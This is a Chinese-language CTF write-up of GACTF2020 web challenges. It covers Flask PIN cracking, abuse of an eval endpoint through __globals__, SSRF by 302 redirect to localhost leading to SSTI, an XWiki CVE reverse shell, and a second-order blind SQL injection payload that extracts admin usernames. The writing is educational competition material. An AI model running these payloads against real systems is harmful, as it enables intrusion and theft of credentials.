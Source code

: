 ```yaml
---
title: GACTF2020
author: ch4ser
typora-root-url: ../
date: 2020-08-29 15:49:36
categories:
  - CTF
---
```






## simpleflask



和以往的flask不一样的地方在于, 这里是经过更新后的flask, 计算pin码的方式已经和以前不一样了, 参考 https://www.chainnews.com/articles/898433701852.htm, 不过问题不大,就把machine-id拼接在docker那一串东西的前面就可以了, 需要注意的是每十分钟重启时候的机器mac地址是会变化的.

<!--more-->

![image-20211114141224625](image-20211114141224625.png)

## ezflask



点击看到代码

```python
# -*- coding: utf-8 -*- 
from flask import Flask, request 
import requests 
from waf import * 
import time 

app = Flask(__name__) 
@app.route('/ctfhint') 
def ctf(): 
    hint =xxxx # hints 
    trick = xxxx # trick 
    return trick 
    
@app.route('/') 
def index(): 
    # app.txt 
    
@app.route('/eval', methods=["POST"]) 
def my_eval(): 
    # post eval 
    
@app.route(xxxxxx, methods=["POST"]) # Secret 
def admin(): 
    # admin requests 
    # 
if __name__ == '__main__': 
    app.run(host='0.0.0.0',port=8080)
```

发现``" ' [ ( ``都被过滤了, 简直离谱

```
eval=ctf.__globals__
```

来查看ctf函数所处在的命名空间下所能接触到的变量和函数

```
{'my_eval': <function my_eval at 0x7fb525c35dd0>, 'app': <Flask 'app_1'>, 'waf_eval': <function waf_eval at 0x7fb525c35c50>, 'admin': <function admin at 0x7fb525b7f650>, 'index': <function index at 0x7fb525c35d50>, 'waf_ip': <function waf_ip at 0x7fb525c35b50>, '__builtins__': <module '__builtin__' (built-in)>, 'admin_route': '/h4rdt0f1nd_9792uagcaca00qjaf', '__file__': 'app_1.py', 'request': <Request 'http://124.70.206.91:10003/eval' [POST]>, '__package__': None, 'Flask': <class 'flask.app.Flask'>, 'ctf': <function ctf at 0x7fb525c35cd0>, 'waf_path': <function waf_path at 0x7fb525c35bd0>, 'time': <module 'time' from '/usr/local/lib/python2.7/lib-dynload/time.so'>, '__name__': '__main__', 'requests': <module 'requests' from '/usr/local/lib/python2.7/site-packages/requests/__init__.pyc'>, '__doc__': None}
```

发现了admin_route, 然后那里是可以发起一个对外请求的, 经过测试发现``127.0.0.1``和``0.0.0.0``及其变形都会触发警告并退出, 盲猜这里考察的是302重定向, 在服务端那里写下

```php
<?php
    header("Location: http://127.0.0.1:8080/");
?>
```

ssrf成功, 但是下一步干嘛呢? 

``__code__``, 函数的代码块

``__code__.co_consts`` 代码块中的所有常量的元组, 参考https://docs.python.org/3/library/inspect.html

```
eval=ctf.__code__.co_consts
```

```

(None, 'the admin route :h4rdt0f1nd_9792uagcaca00qjaf<!-- port : 5000 -->', 'too young too simple')
```

然后通过302重定向访问127.0.0.1:5000, 是一个常规的ssti,再次重定向

![image-20211114141232648](image-20211114141232648.png)



![image-20211114141239286](image-20211114141239286.png)



## XWIKI

找到了CVE, 然后根据例子反弹shell后发现有一个二进制文件, 会给你很多选择题比较大小的, 到这里就做不出来了, 不过看到其他选手的脚本, 这里记录一下.

```perl

use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```



## carefuleyes

在改名的地方进行二次注入

```
sd' or if(substr((select group_concat(username) from user where privilege='admin'),1,1)='X',exp(5000),1)#
```

得到用户名和密码之后进行序列化登陆就可以了

![image-20211114141249521](image-20211114141249521.png)
